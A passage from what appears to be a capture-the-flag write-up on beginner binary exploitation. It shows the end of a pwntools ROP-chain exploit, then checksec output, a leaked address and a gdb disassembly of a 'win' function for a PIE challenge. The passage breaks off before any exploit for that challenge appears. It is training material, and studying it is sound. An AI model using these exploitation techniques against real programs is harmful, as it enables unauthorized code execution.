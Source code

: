```python
p.sendline(rop.chain())
p.interactive()
```

#### <a name="pwn5"></a>Intro to PWN 5 - PWN - 111 points

This challenge reads:

```
#5. Handling PIE via Leak
```

Ok so we're expecting PIE, lets check what else?

```
$ checksec pwnme
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

64 bit with PIE enabled. Cool. Let's see how the leak works?

```
$ ./pwnme
How about reading a leak? 0x555cd142722e
```

Ok what is that address? In another terminal, while `pwnme` is still sitting around waiting for input, I check w/gdb:

```bash
$ gdb -p `pidof pwnme`
gdb-peda$ x/1x 0x556b0e55722e
0x556b0e55722e <win>:   0xe5894855fa1e0ff3
gdb-peda$ disass win
Dump of assembler code for function win:
   0x0000556b0e55722e <+0>:     endbr64 
   0x0000556b0e557232 <+4>:     push   rbp
   0x0000556b0e557233 <+5>:     mov    rbp,rsp
   0x0000556b0e557236 <+8>:     sub    rsp,0x10
   0x0000556b0e55723a <+12>:    mov    DWORD PTR [rbp-0x4],edi
   0x0000556b0e55723d <+15>:    cmp    DWORD PTR [rbp-0x4],0xdeadbeef
   0x0000556b0e557244 <+22>:    je     0x556b0e557254 <win+38>
   0x0000556b0e557246 <+24>:    lea    rdi,[rip+0xdb7]        # 0x556b0e558004
   0x0000556b0e55724d <+31>:    call   0x556b0e557090 <puts@plt>
   0x0000556b0e557252 <+36>:    jmp    0x556b0e557260 <win+50>
   0x0000556b0e557254 <+38>:    lea    rdi,[rip+0xdb3]        # 0x556b0e55800e
   0x0000556b0e55725b <+45>:    call   0x556b0e5570a0 <system@plt>
   0x0000556b0e557260 <+50>:    leave  
   0x0000556b0e557261 <+51>:    ret    
End of assembler dump.
```
